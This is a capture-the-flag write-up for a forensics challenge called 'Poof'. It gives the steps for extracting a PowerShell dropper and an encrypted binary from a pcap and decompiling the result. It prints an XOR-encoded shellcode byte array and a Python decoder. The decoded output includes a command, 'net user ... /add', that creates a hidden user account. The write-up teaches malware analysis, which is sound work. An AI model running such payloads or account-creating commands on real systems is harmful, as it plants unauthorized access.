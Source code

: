 # Poof

Solved by: @oneonlyzero

## Question:
Yet another pcap, no usb traffic in this one so I'm lost. Can you help me out? :)
## Solution:
Open the pcap file -> Extract Http object -> Got 2 files (bin and ps1 file) -> Deobfuscate ps1 file for better view -> get the  key to decrypt the bin file -> decrypt the bin file and save as exe file -> identify the exe type -> use decompiler tools -> find the main/entry point of the exe file -> decode the flag

* https://github.com/Malandrone/PowerDecode

```
byte_array = [
    129, 149, 255, 125, 125, 125, 29, 244, 152, 76, 189, 25, 246, 45, 77, 246, 
    47, 113, 246, 47, 105, 246, 15, 85, 114, 202, 55, 91, 76, 130, 209, 65, 
    28, 1, 127, 81, 93, 188, 178, 112, 124, 186, 159, 143, 47, 42, 246, 47, 
    109, 246, 55, 65, 246, 49, 108, 5, 158, 53, 124, 172, 44, 246, 36, 93, 
    124, 174, 246, 52, 101, 158, 71, 52, 246, 73, 246, 124, 171, 76, 130, 
    209, 188, 178, 112, 124, 186, 69, 157, 8, 139, 126, 0, 133, 70, 0, 89, 
    8, 153, 37, 246, 37, 89, 124, 174, 27, 246, 113, 54, 246, 37, 97, 124, 
    174, 246, 121, 246, 124, 173, 244, 57, 89, 89, 38, 38, 28, 36, 39, 44, 
    130, 157, 34, 34, 39, 246, 111, 150, 240, 32, 23, 124, 240, 248, 207, 
    125, 125, 125, 45, 21, 76, 246, 18, 250, 130, 168, 198, 141, 200, 223, 
    43, 21, 219, 232, 192, 224, 130, 168, 65, 123, 1, 119, 253, 134, 157, 
    8, 120, 198, 58, 110, 15, 18, 23, 125, 46, 130, 168, 30, 16, 25, 93, 
    82, 30, 93, 19, 24, 9, 93, 8, 14, 24, 15, 93, 17, 24, 26, 20, 9, 8, 
    14, 24, 15, 93, 8, 18, 27, 9, 30, 9, 27, 6, 42, 73, 14, 34, 76, 41, 
    34, 47, 78, 28, 17, 17, 4, 34, 28, 51, 34, 52, 16, 13, 17, 73, 19, 
    9, 66, 66, 0, 93, 82, 28, 25, 25, 93, 82, 4, 125
]

decoded_bytes = [byte ^ 125 for byte in byte_array]

decoded_text = ''.join(chr(byte) for byte in decoded_bytes if 32 <= byte <= 126) 

print(decoded_text) 

1dP0RRr(J&1<a|, RWRJ<LxHQY I:I418u};}$uXX$fKXD$$[[aYZQ__Z]jPh1oVh<|uGrojScmd /c net user legituser uoftctf{W4s_1T_R3ally_aN_Impl4nt??} /add /y
```

**Flag:** `uoftctf{W4s_1T_R3ally_aN_Impl4nt??}`
